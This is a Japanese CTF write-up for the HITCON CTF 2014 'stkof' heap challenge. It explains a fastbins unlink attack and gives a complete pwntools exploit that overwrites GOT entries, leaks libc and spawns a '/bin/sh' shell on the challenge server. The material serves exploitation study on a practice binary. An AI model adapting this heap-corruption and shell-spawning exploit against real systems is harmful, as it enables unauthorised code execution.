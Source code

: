 ```yaml
---
layout: post
alias: "/blog/2016/09/21/hitcon-ctf-2014-stkof/"
date: "2016-09-21T03:29:10+09:00"
title: "HITCON CTF 2014: stkof"
tags: [ "ctf", "writeup", "pwn", "hitcon", "heap", "fastbins" ]
"target_url": [ "https://github.com/ctfs/write-ups-2014/tree/master/hitcon-ctf-2014/stkof" ]
---
```



ちひろさんが[fastbinsで解いてた](http://pwn.hatenadiary.jp/entry/2016/09/20/002430)ので解いた。
fastbinsは始めて。
fastbins unlink attackに関してはkatagaitaiの資料が便利だった: <http://www.slideshare.net/bata_24/katagaitai-ctf-1-57598200>。

mallocされたpointerのlistがあるのでfastbinsを使わなくてもできるはず。こちらは先日のASISで既に使っている: <https://kimiyuki.net/blog/2016/09/12/asis-ctf-finals-2016-car-market/>。

## solution

無制限のheap buffer overflowがあるので適当にする問題。
64bitだし構造的にrevが楽なのでありがたい。

### fastbins unlink attack

1.  `malloc`するchunkの(内部の)大きさは統一しておく。これが異なると異なるfastbinsに登録されるため。
2.  いくらか`malloc`しひとつ`free`して、これをarena内のfastbinsのlistに登録させる。
3.  fastbinsに載せたchunkのmetadataを書き換える。
    -   その`fd`を別の位置に向ける。
    -   この時点では何も制約はない。
4.  `fd`の指す位置$+8$、その`size` fieldにあたる位置をchunkのsizeにする。
5.  `malloc`する。
    -   この時点でその結果である`p = malloc(size) == q+16`に対し`q->fd->size == size`のcheckが存在する。
    -   この`q->fd`がfastbinsに登録される。
6.  再度`malloc`すると、先の`q->fd`がその結果として返される。

この後いくらか`malloc`を呼んでも問題ないようだ。

## implementation

ubuntu 16.04環境で解いた。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='localhost')
parser.add_argument('port', nargs='?', default=8000, type=int)
args = parser.parse_args()
context.log_level = 'debug'
p = remote(args.host, args.port)

def malloc(l):
    p.sendline(str(1))
    p.sendline(str(l))
    x = int(p.recvline())
    assert p.recvline().strip() == 'OK'
    return x
def fread(x, s):
    p.sendline(str(2))
    p.sendline(str(x))
    p.sendline(str(len(s)))
    p.send(s)
    assert p.recvline().strip() == 'OK'
def free(x):
    p.sendline(str(3))
    p.sendline(str(x))
    assert p.recvline().strip() == 'OK'
def strlen(x, ok=True):
    p.sendline(str(4))
    p.sendline(str(x))
    if ok:
        return p.recvuntil('OK\n', drop=True)

elf = ELF('./stkof')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
g_cnt = 0x602100
g_list = 0x602140

prev_size = 0x0
size = 0x8
fd = 0x10
bk = 0x18
PREV_INUSE = 1

# fastbins unlink attack
chunk_size = 0x20 # this is ok if 0x30, 0x40, etc
n = chunk_size
for i in range(n):  # set g_cnt = n = chunk_size
    malloc(chunk_size - size)
free(n)
payload = ''
payload += 'A' * (chunk_size - size - 0x8)
payload += 'A' * 0x8 # prev_size (used)
payload += p64(0x20) # size, setting PREV_INUSE is allowd
payload += p64(g_cnt - size) # fd
fread(n-1, payload)
malloc(chunk_size - size)
malloc(chunk_size - size) # this call returns (g_cnt + size)

# got overwrite
payload = ''
payload += 'A' * ((g_list+8) - (g_cnt+size))
payload += p64(elf.got['strlen'])
payload += p64(elf.got['__libc_start_main'])
fread(n+2, payload)
fread(1, p64(elf.plt['printf']))  # overwrite the got.strlen with plt.printf

# leak libc address
s = strlen(2)
assert s.endswith('...\n')
libc_start_main = u64(s[: -4].ljust(8, '\0'))
log.info('__libc_start_main: %#x', libc_start_main)
libc_base = libc_start_main - libc.symbols['__libc_start_main']
log.info('libc base: %#x', libc_base)

# system('/bin/sh')
fread(1, p64(libc_base + libc.symbols['system']))  # overflow the got.strlen with system
fread(2, '/bin/sh\0')
strlen(2, ok=False)

time.sleep(1)
p.sendline('id')
p.interactive()
```
